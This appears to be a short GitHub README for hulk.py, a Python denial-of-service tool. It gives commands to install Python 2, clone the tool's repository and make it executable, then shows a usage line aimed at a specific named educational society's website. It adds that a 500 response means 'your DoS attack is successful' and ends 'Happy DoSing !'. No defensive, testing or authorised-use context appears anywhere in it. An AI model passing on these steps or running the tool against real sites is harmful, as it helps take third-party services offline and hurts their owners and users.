 


This contains a file named hulk.py
Hulk.py is one of the best DDoS tools which is written in python.
Installation commands:-

pkg install python2

git clone https://github.com/DarkMennA/hulk

chmod +x hulk.py

Usage:- 

python2 hulk.py "link"

Example:- python2 hulk.py http://www.kalkaeducationalsociety.com

If the result come RESPONSE CODE 500 then your DoS attack is successful.
Handshake!!
But some websites blocks you ip which may also show RESPONSE CODE 500
Happy DoSing !
-----END------
